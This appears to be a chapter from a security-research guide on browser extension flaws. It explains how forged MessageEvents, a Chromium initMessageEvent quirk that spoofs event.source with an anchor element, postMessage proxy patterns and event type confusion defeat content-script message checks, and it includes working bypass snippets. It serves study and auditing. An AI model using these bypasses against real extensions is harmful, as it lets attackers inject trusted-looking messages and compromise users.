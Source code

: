 ```yaml
---
sidebar_position: 2
---
```


# Exploit Messages
This topic is closely related to the previous chapter, but it is more important. It is one of the most common mistakes I have encountered.

As mentioned earlier, one of the main ways to transmit data in a content script is `postMessage`. However, the problem is that people use the same approaches for messages on websites as they do for postMessage in extensions, which leads to errors.
Let's consider an example of a `content script`:
```javascript
//...
window.addEventListener("message",()=>{
    if(event.origin !== "https://connector.trusted.origin")
        return;
    //...
})
//...
```
Such logic is often applied in situations where extension developers want to allow a trusted site (most often their own, implementing auth) to transmit data to the content script, while not wanting those data to be sent by other origins.

This check is indeed correct, but only if we are talking about web applications, not extensions. I think if you read the previous chapter, it is obvious to you that an attacker's site can simply do something like:
```javascript
const event = new MessageEvent("message",{data:{test:1}, origin: "https://connector.trusted.origin"})
window.dispatchEvent(event)
```
## Source manipulation
https://issues.chromium.org/issues/382291454
However, during my research on extensions, I encountered such logic several times:
```javascript
window.addEventListener("message",()=>{
    if(event.source.origin !== "https://connector.trusted.origin")
        return;
    //...
})
```
At first glance, you might think that in this case, the situation is identical and you can do something like:
```javascript
const new_window = window.open("https://connector.trusted.origin");
const event = new MessageEvent("message",{data:{test:1}, origin: "https://connector.trusted.origin", source: new_window})
window.dispatchEvent(event)
```
However, our origin (and the content script within it, respectively) does not have access to `new_window.origin` due to CORS.
![CORS](/img/Messages/CORS.png)

Perhaps someone had the idea to simply pass an object in the source, something like this:
```javascript
const event = new MessageEvent("message",{data:{test:1}, origin: "https://connector.trusted.origin", source: {origin:"https://connector.trusted.origin"}})
window.dispatchEvent(event)
```
But you will get an error:
> Uncaught TypeError: Failed to construct 'MessageEvent': Failed to read the 'source' property from 'MessageEventInit': Failed to convert value to 'EventTarget'.

But what is [EventTarget](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget)?
> The EventTarget interface is implemented by objects that can receive events and may have listeners for them. In other words, any target of events implements the three methods associated with this interface. 
> Element, and its children, as well as Document and Window, are the most common event targets, but other objects can be event targets, too. For example, IDBRequest, AudioNode, and AudioContext are also event targets.

Does this mean that we can use any EventTarget in message.source? - No.
For example, you can run the code:
```javascript
const event = new MessageEvent("message",{source: document})
window.dispatchEvent(event)
```
You will get an error:
```
Uncaught TypeError: Failed to construct 'MessageEvent': The optional 'source' property is neither a Window nor MessagePort.
```
At this point, one might give up, but I went to read the source code of Chromium. This check is located at the following [address](https://source.chromium.org/chromium/chromium/src/+/main:third_party/blink/renderer/core/events/message_event.cc;drc=3eda4803875e7a6b75631b8b399fdebe0c5958ca;l=99)
```C++
static inline bool IsValidSource(EventTarget* source) {
  return !source || source->ToDOMWindow() || source->ToMessagePort() ||
         source->ToServiceWorker();
}
// ...
if (initializer->hasSource() && IsValidSource(initializer->source()))
    source_ = initializer->source();
```
However, in this same file, there is another way to initialize a message [`initMessageEvent`](https://source.chromium.org/chromium/chromium/src/+/main:third_party/blink/renderer/core/events/message_event.cc;drc=3eda4803875e7a6b75631b8b399fdebe0c5958ca;l=214):
```C++
void MessageEvent::initMessageEvent(const AtomicString& type,
                                    bool bubbles,
                                    bool cancelable,
                                    const ScriptValue& data,
                                    const String& origin,
                                    const String& last_event_id,
                                    EventTarget* source,
                                    MessagePortArray ports) {
  if (IsBeingDispatched())
    return;

  initEvent(type, bubbles, cancelable);

  data_type_ = kDataTypeScriptValue;
  data_as_v8_value_.Set(data.GetIsolate(), data.V8Value());
  is_data_dirty_ = true;
  origin_ = origin;
  last_event_id_ = last_event_id;
  source_ = source;
  if (ports.empty()) {
    ports_ = nullptr;
  } else {
    ports_ = MakeGarbageCollected<MessagePortArray>(std::move(ports));
  }
  is_ports_dirty_ = true;
}
```
As you can see, the Chromium developers skipped the corresponding check in it.
Therefore, you can execute:
```javascript
            var exploit_message = new MessageEvent("message");
            exploit_message.initMessageEvent("message",false,false,{},"https://example.origin","",document,[])
            window.dispatchEvent(exploit_message)
```
You will see that the message was successfully sent, and the source is the document.
Now, to bypass the check discussed earlier, you just need to execute the following code:
```javascript
const source = document.createElement('a')
source.href="https://connector.trusted.origin"
exploit_message.initMessageEvent("message",false,false,{},"https://example.origin","",source,[])
```
This will work because the `<a>` tag has a default getter for `origin`.

I reported this [issue](https://issues.chromium.org/issues/382291454) to the Chrome developers, but they said they do not want to fix it at this time. So you can freely use this technique in your research.

## postMessage proxy Attack
Also, while reviewing extensions, I noticed a fairly common pattern:
```javascript
window.addEventListener("message",(event)=>{
    if(event.data.type==='to_content_script'){
        window.postMessage(event.data, '*')
    }
})

// OR

window.addEventListener("message",(event)=>{
    window.postMessage(handlers[event.data.type](event.data.data), '*')
})
```
The problem with such solutions is that while you may not be creating problems for your extension, you allow messages to be sent from the origin of any site on which this content script is running. In the first case, this is obvious, and in the second case, the problem is that we can send a message like:
```javascript
targetWindow.postMessage({type: "constructor", data: {...}})
```
Because `handlers["constructor"](event.data.data)` simply reflects the data.
Therefore, the presence of a proxy pattern in an extension can be considered a vulnerability.

## Event Type Confusion
I have also never seen anyone check the type of the event they receive.

The fact is that we can send an event of any type with any name, for example:
```javascript
const event = new InputEvent("message",{data: "text"})
window.dispatchEvent(event)
```
And you will see that the `message` listener will intercept this event. It will have a `data` field, but it will not have `source` and `origin` fields, which often also leads to errors.